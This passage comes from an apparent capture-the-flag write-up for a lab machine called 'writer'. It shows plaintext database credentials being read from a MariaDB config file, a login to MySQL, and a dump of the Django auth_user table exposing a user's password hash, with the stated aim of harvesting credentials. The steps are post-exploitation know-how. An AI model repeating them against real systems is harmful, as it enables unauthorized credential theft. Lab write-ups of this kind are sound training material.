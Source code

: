 ```
# 4. "~/.my.cnf" to set user-specific options.
#
# If the same option is defined multiple times, the last one will apply.
#
# One can use all long options that the program supports.
# Run program with --help to get a list of available options and with
# --print-defaults to see which it would actually understand and use.

#
# This group is read both both by the client and the server
# use it for options that affect everything
#
[client-server]

# Import all .cnf files from configuration directory
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mariadb.conf.d/

[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
www-data@writer:/etc/mysql$ mysql -u djangouser -h localhost -p
mysql -u djangouser -h localhost -p
Enter password: DjangoSuperPassword
```

Now, we will login to ```mysql``` database and attempt to obtain the credentials for any of the users on this terminal. 

```
MariaDB [dev]> show tables;
show tables;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.000 sec)

MariaDB [dev]> select * from auth_user;
select * from auth_user;
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
```